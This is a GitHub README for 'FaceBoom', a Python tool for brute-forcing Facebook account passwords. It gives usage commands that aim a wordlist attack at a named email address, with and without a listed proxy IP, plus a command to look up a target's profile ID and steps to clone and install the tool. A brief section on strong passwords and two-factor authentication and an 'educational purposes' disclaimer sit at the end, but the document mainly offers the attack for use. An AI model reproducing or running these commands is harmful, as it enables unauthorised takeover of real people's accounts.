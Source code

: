 ***
  - SCRIPT: **FaceBoom**
  -    JOB: **Brute Force Attack On Facebook Accounts**
***

- **SCRIPT ScreeenShot**:

    - **Usage**:
    
      ![Options]


    - **Brute Force On Facebook Account Without proxy**:
     
     * **Command**: python faceboom.py -t anonymousvai345@gmail.com -w wlist.txt
     
         ![withoutProxy]
   
   - **Brute Force On Facebook Account With Proxy**:
   
    * **Command**: python faceboom.py -t anonymousvai345@gmail.com -w wlist.txt -p 144.217.101.245:3129
    
         ![withProxy]

   - **Get Target Facebook Profile ID**:
   
    * **Command**: python faceboom.py -g https://www.facebook.com/crackervai/
    
         ![getID]

***

# For Install:

 - git clone https://github.com/darkboss1/faceboom-coded-by-darkboss1.git
 - cd FaceBoom/
 - pip install requests
 - pip install mechanize
***

# Supported Platforms:
- [x] Windows
- [x] Linux
- [x] Android~**Termux**
- [x] MacOs
- [x] **any Os has python(2.x, 3.x) with required modules**


# Protect yourself from this attack:
  * Use Strong Password which contains {letters(lower,upper),tokens,numbers} make it longest as possible, at least 10 letters
  * don't use your basic information in the password for example don't use your name or birthday\
        because the hacker can do a information gathering attack and get this information easily\
        then he will generate a wordlist based on this info.
  * Use 2F Authentication.
  
# Warning:
  * this script is only for educational purposes
  * i am not responsible for your actions.

# That's All :)
   * This Script Coded By darkboss1
   * Thanks For Usage
   * Have A Nice Day...GoodBye :)
